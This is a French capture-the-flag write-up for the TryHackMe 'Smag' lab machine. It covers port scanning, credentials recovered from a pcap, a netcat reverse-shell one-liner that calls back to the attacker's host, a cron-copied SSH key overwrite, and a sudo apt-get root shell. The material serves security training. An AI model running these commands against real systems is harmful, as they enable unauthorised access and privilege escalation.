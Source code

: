 # Smag
Bon petit chall facile !

# Enumeration
## Nmap
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-10 07:49 EDT
WARNING: Running Nmap setuid, as you are doing, is a major security risk.

Nmap scan report for 10.10.141.12
Host is up (0.040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Smag
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.14 seconds
```
## Gobuster 
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/mail                 (Status: 301) [Size: 311] [--> http://10.10.141.12/mail/]

```

# Exploit
On trouve donc une page /mail. On va voir ce qu'elle contient.
On retrouve un fichier .pcap, et les mails parle d'un bug pendant le download du fichier, peut-être une piste ?

## .pcap
On y retrouve une connexion sur le site **development.smag.thm**
```
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

username=helpdesk&password=cH4nG3M3_n0wHTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8

```
On retrouve donc :

Un domaine : 
```
development.smag.thm
```
Un compte : 
```
username=helpdesk
password=cH4nG3M3_n0w
```
On va donc ajouter ce domaine dans le fichier hosts et voir un peu ce qu'il y a derriere....

On arrive sur un webshell une fois log.
# Revshell
Vu qu'on a accès a un webshell, on va s'ouvrir un rshell plus sympa.

Payload :
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.14.59.209 1234 >/tmp/f
```
Et nous voila sur le serveur
```
──(kali㉿kali)-[~/Challenge/TryHackMe/Smag]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.14.59.209] from (UNKNOWN) [10.10.141.12] 42934
bash: cannot set terminal process group (707): Inappropriate ioctl for device
bash: no job control in this shell
www-data@smag:/var/www/development.smag.thm$ 

```
# Privesc
En regardant un peu sur la machine, je vois dans les taches cron la copie d'une clé ssh public
```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC5HGAnm2nNgzDW9OPAZ9dP0tZbvNrIJWa/swbWX1dogZPCFYn8Ys3P7oNPyzXS6ku72pviGs5kQsxNWpPY94bt2zvd1J6tBw5g64ox3BhCG4cUvuI5zEi7y+xnIiTs5/MoF/gjQ2IdNDdvMs/hDj4wc2x8TFLPlCmR1b/uHydkuvdtw9WzZN1O+Ax3yEkMfB........[REDACTED].......gt6WtPYxmtv1AHE4VdD6xFJrM5CGffGbYEQjvJoFX2+vSOCDEFZw1SjuajykOaEOfheuY96Ao3f41m2Sn7Y9XiDt1UP4/Ws+kxfpX2mN69+jsPYmIKY72MSSm27nWG3jRgvPZsFgFyE00ZTP5dtrmoNf0CbzQBriJUa596XEsSOMmcjgoVgQUIr+WYNGWXgpH8G+ipFP/5whaJiqPIfPfvEHbT4m5ZsSaXuDmKercFeRDs= kali@kali
```
Je constate aussi qu'on peu modifier le fichier comme on peu le voir ici:
```
-rw-rw-rw- 1 root root  563 Jun  5  2020 jake_id_rsa.pub.backup
```
je vais donc généré ma propre clé ssh pour avoir un accès sur le serveur.
```
ssh-keygen -t rsa -b 4096 -C "pwn@huehue.com"
```
ensuite, je copie la clé public dans le fichier jake_id_rsa.pub.backup, la tâche cron se chargera de la copier dans le fichier authorized_keys qui ce trouve dans le dossier /home/jake/.ssh.
```
echo "ma super clé secure" > jake_id_rsa.pub.backup
```
ensuite j'essaye de me connecté avec ma clé ssh:
```
ssh -i key jake@10.10.142.12
```
et me voici sur le serveur en ssh avec le compte de jake
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/Smag/sshkey]
└─$ ssh -i key jake@10.10.141.12
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020
jake@smag:~$ 
````
On trouve ainsi le 1er flag :
```
jake@smag:~$ cat user.txt 
iusG********************U3j
```

# Privesc to root !
En regardant les droits avec **sudo -l**
```
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```
On peux voir qu'il peux utilser **/usr/bin/apt-get** en tant que root, et sans mot de passe !

On peux donc invoquer un shell root en utilisant apt-get:
```
jake@smag:~$ sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
uJr6zR******************BKz2T
```
